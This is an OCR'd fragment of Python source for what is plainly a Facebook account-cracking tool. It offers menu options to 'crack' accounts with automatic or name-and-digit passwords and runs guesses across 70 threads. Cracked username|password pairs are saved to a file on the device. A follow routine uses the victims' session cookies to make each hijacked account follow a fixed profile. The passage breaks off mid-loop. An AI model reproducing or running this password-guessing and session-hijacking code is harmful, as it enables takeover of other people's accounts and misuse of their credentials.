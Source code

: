                          day   = '' 
  
                         year  = '' 
  
                     except: 
  
                         pass 
  
  
  
                     wrt = '%s|%s' % (usr,w) 
  
                     cp.append(wrt) 
  
                     open('/sdcard/Zeeshan_CP.txt' , 'a').write('%s\n' % wrt) 
  
                     break 
  
                 else: 
  
                     continue 
  
             loop+=1 
  
         except: 
  
             self.__metode__(user, pw, cebok) 
  
     def follow(self, session, coki): 
  
         r = BeautifulSoup(session.get('https://mbasic.facebook.com/100029833089326', cookies={'cookie': coki}).text, 'html.parser') 
  
         get = r.find('a', string='Ikuti').get('href') 
  
         session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text 
  
     def __pler__(self): 
  
         print(' [1] Crack With Auto Pass ') 
  
         print(' [2] Crack With Name Digit Pass') 
  
         chi = input('\n [?] Choose: ') 
  
         if chi == '': 
  
             print('\n   Select Correct One') 
  
             self.__pler__() 
  
         elif chi in ('1', '01'): 
  
             os.system("clear") 
  
             print(logo) 
  
             print("\033[1;32m      Dont Forget Allah😊 \033[1;37m") 
  
             print(" [$]~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~[$]") 
  
  
  
             with sarfrazssb(max_workers=70) as ssbworld: 
  
                 for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia 
  